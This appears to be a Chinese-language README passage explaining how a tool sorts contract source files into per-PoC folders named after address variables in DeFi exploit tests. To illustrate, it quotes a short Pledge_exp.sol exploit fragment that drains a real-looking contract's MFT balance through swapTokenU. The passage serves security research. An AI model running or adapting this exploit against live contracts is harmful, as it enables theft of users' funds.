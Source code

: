 在src/test目录下，针对每个poc.sol,创建了一个名为poc的文件夹，该文件夹下存储了一些合约代码，具体内容如下:

比如src/test/2024-12/Pledge_exp.sol就会生成一个名为Pledge_exp的文件夹，文件夹中又存在xxx.sol的文件，这里的xxx名称来自Pledge_exp.sol中的变量。比如Pledge_exp.sol存在如下定义，同时合约的调用一般都是address::method这种形式。个人觉得直接用合约地址命名文件不好区分，因此直接用存储着合约地址的变量命名，其他的poc.sol也是如此，因此src/test/2024-12/Pledge_exp目录下存在pledge.sol,MFT.sol,BUSD.sol三个文件

这样做有如下目的，比如我想查找swapTokenU这个函数的具体代码，就可以到pledge.sol中找到，因为swapTokeU函数的调用是通过IPledge(pledge).swapTokenU(amount, _target);这种方式
```solidity
address internal constant pledge = 0x061944c0f3c2d7DABafB50813Efb05c4e0c952e1;
address internal constant MFT = 0x4E5A19335017D69C986065B21e9dfE7965f84413;
//BUSD 是 Binance 发行的稳定币，通常用于交易、流动性池等场景。
address internal constant BUSD = 0x55d398326f99059fF775485246999027B3197955;


function testExploit() public balanceLog {
    uint256 amount = IERC20(MFT).balanceOf(pledge);
    address _target = address(this);
    IPledge(pledge).swapTokenU(amount, _target);
}
```